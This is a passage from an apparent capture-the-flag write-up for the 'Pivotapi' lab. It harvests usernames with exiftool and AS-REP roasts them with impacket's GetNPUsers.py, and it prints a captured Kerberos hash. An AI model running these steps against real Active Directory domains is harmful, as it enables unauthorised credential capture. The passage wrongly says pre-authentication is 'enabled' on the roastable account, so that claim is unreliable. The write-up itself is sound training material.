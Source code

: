 ```bash
exiftool * | egrep "Author|Creator" | awk'{print $3}' > users.txt
```

Lets see if anyone of the user have pre-authentication enabled.

I will be using the impacket git for doing the check.
https://github.com/SecureAuthCorp/impacket

````bash
GetNPUsers.py -dc-ip Pivotapi.htb -no-pass -usersfile user.txt LicorDeBellota/ 
````

```bash
 
Impacket v0.9.23.dev1+20210517.123049.a0612f00 - Copyright 2020 SecureAuth Corporation  
  
\[-\] Kerberos SessionError: KDC\_ERR\_C\_PRINCIPAL\_UNKNOWN(Client not found in Kerberos database)  
\[-\] Kerberos SessionError: KDC\_ERR\_C\_PRINCIPAL\_UNKNOWN(Client not found in Kerberos database)  
\[-\] Kerberos SessionError: KDC\_ERR\_C\_PRINCIPAL\_UNKNOWN(Client not found in Kerberos database)  
\[-\] Kerberos SessionError: KDC\_ERR\_C\_PRINCIPAL\_UNKNOWN(Client not found in Kerberos database)  
\[-\] Kerberos SessionError: KDC\_ERR\_C\_PRINCIPAL\_UNKNOWN(Client not found in Kerberos database)  
\[-\] Kerberos SessionError: KDC\_ERR\_C\_PRINCIPAL\_UNKNOWN(Client not found in Kerberos database)  
\[-\] Kerberos SessionError: KDC\_ERR\_C\_PRINCIPAL\_UNKNOWN(Client not found in Kerberos database)  
\[-\] Kerberos SessionError: KDC\_ERR\_C\_PRINCIPAL\_UNKNOWN(Client not found in Kerberos database)  
$krb5asrep$23$Kaorz@LICORDEBELLOTA:7126c1220251bd31031486030a7cb79b$7041acc8c8068fd6a48572495e3e9b66ac6221e91a199e2be1d5ded228008322e1dfb3f6150fd99c91a90f58b5e51bd1d91832683294de4529203321951fe3412033f22e480a4e70e3a11e6972bb9c394ca0d8a  
c9d0bb252ae1cff026954ae1dafcaa833f1239890f06f3432e2e356255123a2d0f1dcd40741b0d18f7a59070444be8a1f53c90b957a5de2fe26da781c5bffb3595b7dd6a1473b11fdd5fa8fa926a2cccd2972b4afe243f7b7e791132bfe19bb7b2d462133c29bcbe83e34ebbc10243624f5f102ebf0  
818dfe14a4a55585521cb37ca833dfbbc6d737ce1785b09bcf51d0c5bf7e29fd4bd71e6c895c243f4b86a9  
\[-\] Kerberos SessionError: KDC\_ERR\_C\_PRINCIPAL\_UNKNOWN(Client not found in Kerberos database)  
\[-\] Kerberos SessionError: KDC\_ERR\_C\_PRINCIPAL\_UNKNOWN(Client not found in Kerberos database)  
\[-\] Kerberos SessionError: KDC\_ERR\_C\_PRINCIPAL\_UNKNOWN(Client not found in Kerberos database)
```

As you can see one of the account have pre-authentication enabled *Kaorz*

```hash
$krb5asrep$23$Kaorz@LICORDEBELLOTA:7126c1220251bd31031486030a7cb79b$7041acc8c8068fd6a48572495e3e9b66ac6221e91a199e2be1d5ded228008322e1dfb3f6150fd99c91a90f58b5e51bd1d91832683294de4529203321951fe3412033f22e480a4e70e3a11e6972bb9c394ca0d8ac9d0bb252ae1cff026954ae1dafcaa833f1239890f06f3432e2e356255123a2d0f1dcd40741b0d18f7a59070444be8a1f53c90b957a5de2fe26da781c5bffb3595b7dd6a1473b11fdd5fa8fa926a2cccd2972b4afe243f7b7e791132bfe19bb7b2d462133c29bcbe83e34ebbc10243624f5f102ebf0818dfe14a4a55585521cb37ca833dfbbc6d737ce1785b09bcf51d0c5bf7e29fd4bd71e6c895c243f4b86a9
```

